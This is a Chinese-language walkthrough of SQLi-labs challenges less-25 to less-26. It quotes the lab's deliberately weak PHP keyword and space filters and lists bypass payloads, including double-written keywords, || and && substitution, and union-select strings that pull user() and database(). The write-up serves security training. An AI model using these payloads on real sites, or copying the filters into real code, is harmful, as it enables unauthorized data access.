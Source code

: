 漏洞原因：插入数据库里的脏数据并没有做转义，过滤就拿出来直接用，导致二次注入

![image-20241207195150260](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241207195150260.png)

## less-25 过滤 or and

```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id); //strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id); //Strip out AND (non case sensitive)
	return $id;
}
```

过滤了`or`,`and`，会将这两替换为空，双写绕过

符号替换

```
or -> ||
and -> &&
```

```
1'+oorr+1=1%23
1'+anandd+1=1%23
-1'+union+select+1,user(),database()%23
```

## less-25a

数字型

```
1+oorrder+by+3--+
```

```
-1+union+select+1,2,3--+
```

## less-26 过滤空格

```php
# 过滤了 or 和 and 大小写
$id= preg_replace('/or/i',"", $id);            //strip out OR (non case sensitive)
$id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)

# 过滤了 /*
$id= preg_replace('/[\/\*]/',"", $id);        //strip out /*

# 过滤了 -- 和 # 注释
$id= preg_replace('/[--]/',"", $id);        //Strip out --
$id= preg_replace('/[#]/',"", $id);            //Strip out #

# 过滤了空格
$id= preg_replace('/[\s]/',"", $id);        //Strip out spaces

# 过滤了斜线
$id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
return $id;
```
